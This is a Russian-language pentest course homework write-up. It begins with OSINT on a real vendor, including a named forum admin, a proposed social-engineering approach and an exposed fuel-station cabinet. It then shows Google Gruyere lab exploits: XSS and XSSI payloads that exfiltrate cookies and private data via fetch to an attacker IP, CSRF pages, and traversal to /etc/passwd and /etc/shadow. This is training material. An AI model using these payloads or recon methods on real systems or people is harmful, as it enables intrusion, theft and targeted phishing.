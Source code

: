 # «Penetration Testing. Часть 1»

[Задание](https://github.com/netology-code/ibdef-homeworks/tree/master/06_pentest)


## Задание 1

Целью для поисков выбрал компанию-производителя, продуктами которой я пользуюсь каждый день, для работы.
Называются они "Автоматика плюс"

[Их сайт](http://www.automatikaplus.ru/default.aspx)

Решил найти IP адрес их сайта, ```nslookup www.automatikaplus.ru ```, получаю ```188.225.36.85```. В гугле нахожу информацию, что это хостинг из Санкт-Петербурга, значит сервер стоит не у них, а они пользуются хостингом (физически они находятся в Пензе).
С помощью shodan посмотрел, что сервер на Windows, там открыт 443 порт и лежит сертификат, который не доступен , если просто заходить на сайт, так же открыты RDP, VNC сервисы для управления этим сервером. 

На сайте есть ссылка на форум. Решил поискать администраторов форума. loginov_d - один из самых активных участников форума, просто гуглю его ник. Нахожу его [личный сайт](http://www.loginovprojects.ru/index.php?page=simple). Сайт хостится на том же IP, что и основной сайт автоматики. На его личном сайте есть комментарии, где с 2005 года с ним разговаривают его друзья и видимо одногруппники, студенты. Можно использовать их email, так как они в открытом виде там лежат и использовать социальную инженерию, направив её на администратора. 

<details>
  <summary>**Тут дополнительно, не очень применимо к самой автоматике**</summary>
  
Так как я работаю с их продуктом, знаю о уязвимости "из первых рук". Проблема в мисконфигурации, если не указать отдельно пароль администратора одного из сервисов, он доступен (неявно) из интернета. т.е. если люди не пользуются этим сервисом, либо не знают о нем и не указывают пароль по этим причинам - можно получить доступ ко ВСЕМ транзакциям с контрагентами. Решил проверить, есть ли где-то такой личный кабинет. 

![data/OUPS.png](data/OUPS.png)

Доступно 4 кабинета, у первого, если после адреса написать /azs/ (это доступ к веб сервису не для клиентов) нет пароля администратора. Проверять, есть ли там транзакции не стал, на всякий случай. 
IP принадлежит Братску. В Братске не так много заправок. 

![data/map.png](data/map.png)
У крупных брендовых заправок не может быть именно этого сервиса, остались "братский бензин" и "илим-роско". У первых есть этот сервис. Ребят предупредил, вдруг им интересно. 

![data/предупредил.png](data/предупредил.png)

</details>

В ходе проделанной работы я нашел мало данных, связанных с самой организацией, но думаю всю эту информацию можно использовать совместно с социальной инженерией, чтобы получить другую информацию, полезную для пентеста. 

## Задание 2

### XSS

Находится автоматически с помощью OWASP ZAP.

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```

Немного изменяю ссылку, чтобы вместо 1, нам выводились на экран cookie:
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%28document.cookie%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
Результат:

![data/c1.png](data/c1.png)

Как реализовать эту атаку в реальной жизни: 
1) Немного изменяем ссылку, чтобы вместо алерта, сервер сам отправлял нам информацию (с помощью функции fetch)
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Efetch(%27http://10.10.58.248:9001?cookie=%27%2Bbtoa%28document.cookie%29%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
2) Отправляем ссылку атакуемому.
3) Запускаем на нашем сервере ``` nc -nlvp 9001 ```
4) Когда атакуемый перейдет по ссылке, мы получим файлы cookie.

Результат:

![data/c2.png](data/c2.png)


### XSRF

Находится автоматически с помощью OWASP ZAP.

Чтобы проэксплуатировать эту уязвимость, нужно заставить атакуемого перейти по ссылкам с другого сайта, из почты и т.д.

Продемонстрирую:

1) Создаём страницу:
```html
<h1>CSRF</h1>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/newsnippet2?snippet=I DONT WANT THIS SNIPPET">Click Me</a>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=0">Delete Me</a>

```
2) Страница

![data/SN1.png](data/SN1.png)

3) Результат добавления текста

![data/SN2.png](data/SN2.png)

4) Результат удаления

![data/SN3.png](data/SN3.png)

### XSSI

В соответствии с [этой статьёй](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), чтобы проэксплуатировать XSSI, нужно проанализировать .js скрипты на атакуемом сайте. На этом сайте все скрипты ссылаются на .../lib.js
Принцип атаки: мы берем другой сайт, ссылаемся в нем на скрипт атакуемого сайта. Следующей строчкой вызываем alert(<тут нужная нам переменная из атакуемого сайта>). Значит нужно проанализировать /lib.js. Я не смог найти в этом скрипте переменных с "небезопасными" значениями. 
Но воспользовался подсказкой и там указано, что существует скрипт feed.gtl. Который содержит "private snippet". 

1) Делаем страницу:

```html
<script>
function _feed(s) {
  alert(s['private_snippet']);
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```

2)  Создаем пользователя atakuemiy. И задаём ему private snippet. 

![data/atakuemiy.png](data/atakuemiy.png)

3) Создаем пользователя attacker, Загружаем страницу из пункта 1. Располагаем её в профиле.

4) Логинимся от пользователя atakuemiy. Видим, что если атакуемый перейдет по ссылке в профиле атакующего, алерт выдаёт private snippet. Следовательно можно алерт заменить на fetch, как в первом пункте и отправить эту информацию куда угодно на сервер атакующего. 

![data/c4.png](data/c4.png) 

5) Пример:

```html
<script>
function _feed(s) {
  fetch('http://10.10.58.248:9001?snippet='+btoa(s['private_snippet']));
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```
6) Результат:

![data/c5.png](data/c5.png)

### Path Traversal

Эта атака пытается получить доступ к файлам и папкам, которые находятся вне папок, доступных "легально". На сервер можно загрузить файлы, которые потом доступны по адресу: .../username/file.ext

Я нашел [репозиторий](https://github.com/omurugur/Path_Travelsal_Payload_List/blob/master/Payload/Dp.txt) который содержит пэйлоад для этой атаки, с помощью фьюзера у owasp-zap нахожу, что часть из них работает, например этот:

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

![data/P-T1.png](data/P-T1.png)

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4//..%5C../..%5C../..%5C../..%5C../..%5C../..%5C../etc/shadow
```
![data/P-T2.png](data/P-T2.png)

### Code Execution
Самостоятельно я эту уязвимость найти не смог. Принцип такой, что мы можем либо создать пользователя  ```..``` и загрузить туда файл ```gtl.py```. Либо сразу загрузить файл ```../gtl.py```. Так как сайт подвержен DOS атакам, мы перезапускаем сервер и код из файла ```gtl.py``` выполнится.

Пример:
1) На сайте лежит файлы с расширением .py

![data/c6.png](data/c6.png)


2) Попробуем создать пользователя .. и загрузить на сервер измененный файл data.py

![data/dotdot.png](data/dotdot.png "data/dotdot.png")

3) Перезагружаем сервер ```https://google-gruyere.appspot.com/632978317648096391885908153107952987817/quitserver```

4) Сервис нам сообщает, что сервер owned и восстанавливает .py файлы

![data/owned.png](data/owned.png)
